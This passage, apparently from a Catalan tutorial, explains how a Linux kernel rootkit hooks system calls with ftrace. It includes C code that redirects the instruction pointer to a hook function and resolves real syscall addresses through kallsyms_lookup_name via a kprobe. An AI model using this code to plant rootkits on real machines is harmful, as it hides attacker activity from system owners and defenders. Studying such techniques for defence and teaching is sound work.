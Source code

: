     La part més important de hook és la callback. Aquesta funció està assignant al registre **IP** (següent instrucció a executar pel processador) a l'adreça *hook->function*.

    ```c
    static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, 
        struct ftrace_ops *ops, struct pt_regs *regs)
    {
        struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);
        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
    }
    ```

    **notrace** és un tractament especial per marcar funcions prohibides per a fer seguiment amb *ptrace*. Es poden marcar funcions que s'utilitzen en el procés de seguiment. Evitem que el sistema es pengi si cridem de forma errònia a la vostra callback.

    També és molt important la funció **fh_resolve_hook_address()**. Aquesta funció utilitza ```kallsyms_lookup_name()``` (**linux/kallsyms.h>**) per cercar l'adreça de la crida a sistema real. Aquest valor s'emprarà tant per obtenir el codi original i guardar-lo en una altra adreça com per sobreescriu amb el nostre *rootkit*. Es guarda en l'atribut *address*.

    ```c
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);

            if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }
        }
    ```

    **OBSERVACIÓ**: Quan intentem fer hook, es poden donar bucles recursius. Per evitar-ho tenim diferents opcions. Podem intenta detectar la recursivitat mirant l'adreça de retorn de la funció o bé podem saltar a una adreça per sobre la crida *ftrace*.

    ```c
        #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif
    ```
